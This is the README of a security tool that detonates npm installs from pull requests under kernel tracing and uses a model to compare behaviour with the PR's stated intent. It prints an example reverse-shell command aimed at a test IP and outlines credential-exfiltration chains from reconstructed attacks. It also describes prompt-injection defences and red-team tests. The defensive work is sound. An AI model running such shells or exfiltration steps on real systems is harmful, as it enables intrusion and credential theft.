

# PR Detonator

**Static scanners read code. PR Detonator runs it — under kernel tracing — and holds what it
did against what the pull request claimed.**

> **We pointed it at 100 packages published to npm minutes earlier, knowing nothing about any
> of them. 73 installed and all 73 came back clean. Of the 27 that did not install, one was
> blocked anyway — on evidence captured before it timed out.**
>
> That one connected to a hardcoded IP address on a non-standard port during `postinstall`,
> with no DNS lookup at all. Reading its published source explained why: a fallback path
> downloads the product binary from that bare IP with **TLS certificate verification
> disabled**, then extracts it and links it as the executable. Anyone who can intercept that
> connection — or who later controls that address — gets arbitrary code executed on every
> machine running `npm install`.
>
> It isn't malware. The maintainer owns the package; it's a deliberate fallback with an unsafe
> default. We **reported it privately to the maintainer on Nov 2, 2026**; there is no response
> or fix yet, so the name is left out of this text, though it is recoverable from this
> repository's earlier history. But nobody told us to look, and no advisory existed: the
> behavior alone gave it away.
> ([method](eval/SWEEP.md) · [what `npm audit` says instead](eval/BASELINE.md))

We then scaled the same sweep to **500** of the newest packages: 413 of 421 that installed
cleared, nothing benign was hard-blocked, seven were routed to *needs review*, and the one
block was a package that downloads and runs binaries during `install`.
([the 500-package run](eval/SWEEP500.md))

## Why now

Install-time supply-chain attacks are the ones that actually land — event-stream, ua-parser-js,
the Shai-Hulud worm — because a package's `postinstall` runs on every laptop and CI runner
before anyone imports a line of its code. The pull request that lets one in is usually a
**one-line version bump**, so there is nothing in the diff to review.

And increasingly nobody is reviewing it anyway: **AI coding agents now open the PRs and pick
the dependencies**, including packages that don't exist, which attackers then register. Review
has become the bottleneck precisely as the volume of machine-written dependency changes
exploded. PR Detonator is the layer that checks what the agent just installed — by running it.

A GitHub App: on every pull request it runs the PR's `npm install` in a disposable hardened
sandbox, traces every process, connection and DNS lookup at the kernel level with eBPF
(Tetragon), and asks a Meta model to compare that behavior with what the PR *claims* to do. A
PR titled "Fix typo in README" that opens a raw-IP connection during `postinstall` gets a
failing check that blocks the merge and an inline comment on the exact guilty line.

**Live dashboard** (recent runs, verdict tally, and a behavior atlas of what packages do at
install): https://fugeretrevin--pr-detonator-dashboard.us-east.modal.run/

## Example

A PR titled **"Add install-time telemetry opt-out"** adds a script that base64-decodes and
spawns a reverse shell. PR Detonator's comment:

> ## PR Detonator: 🛑 Blocked
> | | |
> |---|---|
> | **Stated intent** | Add install-time telemetry opt-out to disable anonymous usage telemetry during CI installs. |
> | **Observed behavior** | During npm install the postinstall script spawned an interactive bash reverse shell connecting to raw IP 203.0.113.10:4444. |
>
> | Severity | Rule | Evidence |
> |---|---|---|
> | 🔴 critical | `EXEC_INTERACTIVE_SHELL` | /dev/tcp socket redirect: `/usr/bin/bash -c "bash -i >& /dev/tcp/203.0.113.10/4444 0>&1"` |
> | 🟠 high | `NET_RAW_IP` | bash connected to 203.0.113.10:4444 with no DNS lookup |
>
> **Process tree:** `npm install → sh -c "node scripts/telemetry-optout.js" → node → bash -c "bash -i >& /dev/tcp/…"`
>
> ### What happened, in order
> - `+0.00s` ▶ **npm** install started
> - `+0.44s` 📜 **npm** ran the install script `node scripts/telemetry-optout.js`
> - `+0.48s` ⚙ **bash** ran `-c "bash -i >& /dev/tcp/203.0.113.10/4444 0>&1"`
> - `+0.48s` 🌐 **bash** connected to `203.0.113.10:4444`

That last section is the one a reviewer reads first. Four findings are a list; the same four
facts in the kernel's own recorded order are an attack. For the Shai-Hulud reconstruction it
reads: ran the install script → opened `~/.npmrc` → fetched a GitHub release → unpacked it →
ran **trufflehog** over the workspace → `POST`ed to `webhook.site`, 3.9 s in. The ordering is
the kernel's nanosecond timestamps, not a reconstruction, and the section is **report-only** —
built after the verdict, so it can never change one.

## Architecture



1. **Brain** (Modal): verifies the webhook, creates an in-progress check, and spawns a job
   that fetches the PR metadata and diff and calls the Chamber.
2. **Chamber** (VM): clones the exact head SHA on the host, runs `npm install` in a container
   with no capabilities, a read-only root, uid 10001, and egress rules that block cloud metadata, private
   ranges, and the host. Tetragon records every exec and TCP connect attempt; events are
   attributed to the container by ID. The sandbox's only resolver is a logging dnsmasq on
   the bridge (direct port-53 traffic is rejected), so each connect is named with the answer
   the sandbox actually got.
3. **Rules** turn kernel facts into findings (`NET_RAW_IP`, `EXEC_NET_TOOL`,
   `EXEC_INTERACTIVE_SHELL`, `EXEC_DECODE_PIPE`, ...).
4. **The model** (Meta `muse-spark-1.3`, structured JSON output) compares stated intent with
   observed behavior and writes the explanation.
5. **Verdict** = `max(rule severity, model severity)` → check conclusion + PR comment. Branch
   protection turns a failing check into a blocked merge.
6. **The dependency did it**: the kernel records the directory npm runs each install script
   in (`node_modules/<pkg>`, set before any package code runs), so a Dependabot-style bump
   whose new version is malicious gets blamed on the bumped line, naming the package (E8).
7. **Prompt screening**: Llama Prompt Guard 2 scores the PR text in parallel. In our
   validation it caught explicit jailbreaks but not injections embedded in PR text, so it
   only stops the Intent Contract from trusting flagged text and never decides a verdict.
8. **Guilty line**: when a PR is blocked, code walks the flagged process up to the npm
   lifecycle script that started it and posts an inline review comment on the exact diff line
   (and, if that script ran a file from the PR, on the line there that spawned the payload).
   The model only adds a one-sentence "what it does", decoding obfuscation: for the E5
   reverse shell it decodes the base64 to `bash -i >& /dev/tcp/203.0.113.10/4444 0>&1`.
9. **Differential**: for a dependency bump, the base commit is detonated too (cached) and the
   report shows only the behavior the PR *introduced* ("new at install: a connect to
   203.0.113.10:4444"). Low findings the old version already produced are suppressed, so
   routine bumps stay quiet; high/critical are never suppressed.

10. **Investigator agent** (⚠️ only): when the verdict is "needs review", Muse gets three
    read-only tools (npm registry facts, our host classification, the captured install
    script) and writes the reviewer a triage note — "puppeteer, published 2013, maintainers
    unchanged, install.mjs only downloads a browser from a known CDN". It can escalate to
    blocked but never clear a finding.
11. **Per-repo policy**: `.github/detonator.yml`, read from the **base** branch only (never
    the PR's head), lets a repo name hosts that are normal for it and switch "needs review"
    from a passing neutral to a failing check, or require the AI analysis
    (`model_requirement: required`). It can only tighten review, never silence a kernel
    finding.
12. **New-package signal**: a deterministic npm-registry lookup flags an added dependency
    that doesn't exist (a name an attacker could register — "slopsquatting") or was first
    published in the last week. Low severity, so a human reviews before it installs.

## Why it's hard to fool

- **The AI can explain, but it can't be talked out of kernel facts.** PR title, body, and
  diff are attacker-controlled, so the post-run analysis only *escalates*: a HIGH or CRITICAL
  rule hit cannot be cleared by any model output. The one exception is deliberately narrow and
  pre-committed: the Intent Contract's prediction, made before the install runs, can clear a
  single LOW `NET_UNLISTED_DOMAIN` hit for a host it named in advance — never a raw IP, never a
  shared-hosting domain anyone can publish under, and never when the PR itself added install
  scripts. Clearing needs **two independent keys**: the prediction must name the host *and* the
  host must be on an allowlist shipped in this repo or in the repo's base-branch policy. Author
  text selects from that list; it can never extend it, so a PR cannot allowlist a domain its
  author registered. The prompt fences untrusted content as data, and attempts to
  break out of those fences are defanged. In our prompt-injection test, the model flagged the
  injection on its own, and the rules would have blocked the PR either way.
- **Ground truth, not guesses.** `tcp_connect` is traced on the SYN, so even a connection to
  an unreachable address is captured.
- **No secrets in the blast radius.** The sandbox gets no tokens and no host environment;
  public repos are cloned anonymously. The VM has no IAM role and IMDSv2 with hop limit 1.
  Private repos are cloned on the host with a token that can only read that one repo, sent
  over TLS to a certificate the Brain pins.
- **Bait, not secrets.** The sandbox's home holds fake credentials (`~/.npmrc`, AWS, SSH,
  git); an install script that opens one is flagged.
- **Only TCP leaves, and all of it is traced.** UDP, ICMP and DNS to public resolvers are
  blocked and logged; exfil services resolve to a sinkhole.
- **Spoof-resistant naming.** An IP is named only by the sandbox's own lookups, under the
  name it *asked for*: `evil.example` CNAME'd to `registry.npmjs.org` is still reported as
  `evil.example`. With no lookup, it's a raw-IP connect. A Brain-side fallback only accepts
  reverse DNS names that forward-confirm, so a PTR record can't claim `registry.npmjs.org`.
- **Flood-resistant telemetry.** Repeated events are collapsed, and if caps are still hit
  the result can never be "Clean".
- **Every rendered string is escaped.** Process args, domains, and model output are rendered
  as HTML entities: no markdown, links, `@mentions`, or fake bot markers.
- **Unfinished means unverified.** A timeout or error is never reported as success, and a
  check left hanging by a killed job is failed closed by a reconciler.
- **No silent AI dropout.** If the model analysis fails, a rules-only result is capped at
  "needs review", never Clean (or fails outright under `model_requirement: required`).
- **The AI's evidence is checked, not trusted.** Muse cites job-scoped event IDs; code
  rejects invented or mismatched citations, and the report shows cited events from the
  kernel record itself, not from the model's text.

## Results

**Registry sweep — real packages nobody curated** ([details](eval/SWEEP.md)): we took the 100
most recent publishes straight off npm's change feed and detonated them. Of the 73 that
install on linux-x64: **0 blocked, 0 needs-review** — the false-positive number comes from
real registry traffic, not a list we chose. 7 ran install scripts. One package (which hung
past our timeout) connected to a hardcoded IP on port 4443 with no DNS lookup at all; that is
reported as an observation for review, not an accusation.

**What the tool everyone already runs says about the same PRs** ([details](eval/BASELINE.md)):
`npm audit` reports **"found 0 vulnerabilities"** on the Shai-Hulud reconstruction, on an
`$(env)`-exfiltrating postinstall, on a base64→`sh` payload, and on a stolen-token request.
It *does* catch our ua-parser-js reconstruction — because that attack has had an advisory
since 2021. Advisory databases are retrospective; PR Detonator blocked all five from behavior
alone, which is what you need the first time an attack runs.

**Evaluation (142 real detonations, scored 2026-11-02 at commit `a96c8a1`,
[details](eval/README.md)):** **0 of 104 popular packages blocked** (35 of which run install
scripts: puppeteer, electron, prisma, cypress, re2, ...); **16 of 16 simulated install-time
attacks blocked in 3 of 5 trials, 15 of 16 in the worst**; and **defanged reconstructions of
two real incidents, ua-parser-js (2021) and the Shai-Hulud npm worm (2025), both blocked and
blamed on the version-bump line**. On the red-team sets the full pipeline blocks 9/10 (author)
and 10/10 (independent, written by a model that never saw the rules). Muse decoded the payload
in 5/5 obfuscated attacks and named the right dependency in 2/2. Cost ~$0.018 per PR. Scaling
to 104 packages surfaced one false positive (a dependency's nested `npm` reading `~/.npmrc`),
now fixed. Rules alone block 15 of 16 attacks; the model catches the last (exfil to a
resolvable domain).

Every one of those 142 runs carries a **per-job sensor witness**: the sandbox execs a
nonce-marked marker before and after the install, and a missing marker fails the check closed
rather than passing as quiet. 139 recorded both markers; the 3 that recorded only the first are
exactly the 3 that hit the timeout and were killed. And **452 of 452** of Muse's *cited* claims
point at a real kernel event of the right type, with none rejected and no invented hosts —
checked by code, not taken on trust. That figure covers cited evidence plus any host or IP in
the prose, so it measures citation discipline rather than total factual accuracy
([how, and what it misses](eval/README.md)).

**We quote a range because we measured one.** Re-running the model five times per case on
identical telemetry ([eval/REPEAT.md](eval/REPEAT.md)) gives a flip rate of 1/24 on attacks and
boundary benign, 1/20 on the red-team set, and **zero benign blocked in any trial**. One case
is unstable: `m12` exfiltrates to an ordinary resolvable domain that the rules can only rate
LOW, so its verdict depends on whether Muse returns `malicious` or `suspicious`. Temperature 0
is not determinism, and a single run would have let us publish the luckier number.

Of those 104 benign packages, **95 are verified clean, 3 need review and 6 are "could not
verify"** — four (`better-sqlite3`, `argon2`, `cpu-features`, `node-pty`) fail to compile
without a C toolchain in the image and two (`biome`, `cypress`) hit the install timeout. We
refuse to call an install clean that we never watched finish. That is a limit of our sandbox,
not a mark against those packages, and none of them was blocked.

End-to-end on real GitHub, real Chamber, real model ([demo repo](https://github.com/pr-detonator-demo/demo-target/pulls)):

| Scenario | Result |
|---|---|
| README change | ✅ Clean |
| Add `lodash` | ✅ Clean (registry traffic only) |
| Add `esbuild` (postinstall binary check) | ✅ Clean, no false positive |
| Add `puppeteer` (downloads Chrome from `storage.googleapis.com`) | ⚠️ Needs review (mergeable): shared hosting is never auto-cleared; the investigator writes a triage note |
| "Typo fix" that exfiltrates `env` to a raw IP | 🛑 Blocked: `EXEC_NET_TOOL`, `NET_RAW_IP` |
| Base64-obfuscated reverse shell | 🛑 Blocked (critical): `EXEC_INTERACTIVE_SHELL` |
| Exfil + prompt injection in PR body and `package.json` | 🛑 Blocked, injection flagged |
| Install that hangs forever | 🛑 Could not verify (timeout fails closed) |
| "Bump color-helper 1.0.0 → 1.0.1" whose new version's postinstall opens a raw socket | 🛑 Blocked: inline comment on the bumped line naming `color-helper` |

Detonations take 3–20 s; a full check completes in well under a minute. Demo payloads target
only TEST-NET-3 (`203.0.113.10`), so connect attempts are traced and go nowhere.

## Layout

```
shared/    Brain↔Chamber contract (Pydantic) and HMAC signing
brain/     Modal app: webhook, GitHub client, rules, enrichment, LLM, verdict, report
chamber/   VM service: server, detonation, Tetragon telemetry, policies, sandbox, provisioning
tests/     unit + integration tests against recorded real fixtures (Tetragon, model)
demo/      scenario payloads for the demo repo
```

## Running it

- **Tests:** `python -m pytest` (931 tests; fixtures recorded from real Tetragon, dnsmasq, firewall-log and model output)
- **Chamber:** on Ubuntu 22.04+ with BTF: `sudo bash chamber/provision/setup.sh`
  (installs Tetragon, egress rules, sandbox image, and the systemd service; generates the HMAC secret)
- **Brain:** create Modal secrets `github-app`, `llama`, `chamber`, `detonator-config`
  (see `.env.example`), then `modal deploy -m brain.app` and point the GitHub App webhook at
  the printed URL.

## Scope and limits

npm only; detects unexpected outbound connections, non-TCP egress, credential reads and
suspicious process spawns during install. Payloads that only run when a package is
`require`d at runtime (event-stream, 2018) are out of scope. Hardened Docker in a dedicated
VM, not a microVM; one detonation at a time. Next steps: kill-on-detect via Tetragon
enforcement, pip support.
